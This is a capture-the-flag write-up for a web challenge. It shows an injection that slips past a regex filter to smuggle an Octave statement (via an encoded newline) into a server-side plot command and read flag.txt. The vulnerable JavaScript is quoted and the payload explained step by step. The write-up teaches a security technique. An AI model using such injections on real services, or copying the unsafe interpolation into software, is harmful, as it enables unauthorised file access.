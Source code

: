 ### Challenge
Name: Ohio Instuments 84  
Category: web  
Difficulty: medium  

### Solution
Enter the URL `https://ohio-instruments-84.chall.pwnoh.io/x)%0Atitle(fileread(char(readdir(char(46))(8)))`
You receive the flag as an image, wherever you see a subscript then some character c, it appears as _c in the flag
![Response of the API request](result.png)

### Explanation
The payload in this case is a regex-limited string injection into octave
```javascript
if (!/^([x()+*\-\.\^/\d\s]|(\w+\())+$/.test(expr)) {
    throw new Error("Invalid expression");
}
const filename = `${crypto.randomUUID()}.jpg`;
const cmd = `x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')`;
```
#### Regex breakdown
`x, (, ), +, *, -, ., ^, \d (digits), \s (whitespace)` are all valid characters  
You can also use any `\w (alphanumeric or underscore)` character followed by a `(`
[regexr](https://regexr.com/) is a great tool for writing regex validated payloads

#### Octave payload breakdown
`%0A` is a newline character, so if we look at the command the server runs
```javascript
const cmd = `x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')`;
```
The expanded octave script looks like
```octave
x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')
```
After substitution
```octave
x = -10:.2:10; h = figure('visible', 'off'); plot(x, x)
title(fileread(char(readdir(char(46))(8)))); saveas(h, 'xxxxxxxxxxxxxxxx.png')
```
So we plot a line, and run `title(fileread(char(readdir(char(46))(8))))`  
`char(46)` returns the character with ASCII code 46 (`"."`)  
`readdir(".")` returns a cell array of strings with filenames in the current directory  
`readdir(".")(8)` gets the 8th item from that cell array (`"flag.txt"`)  
`char("flag.txt")` casts a cell type to a string  
`fileread("flag.txt")` reads the content of the flag `"bctf{the_flag_contents}"`  
`title("bctf{the_flag_contents}")` writes the flag to the plot  
Then it is sent to use with the flag!  
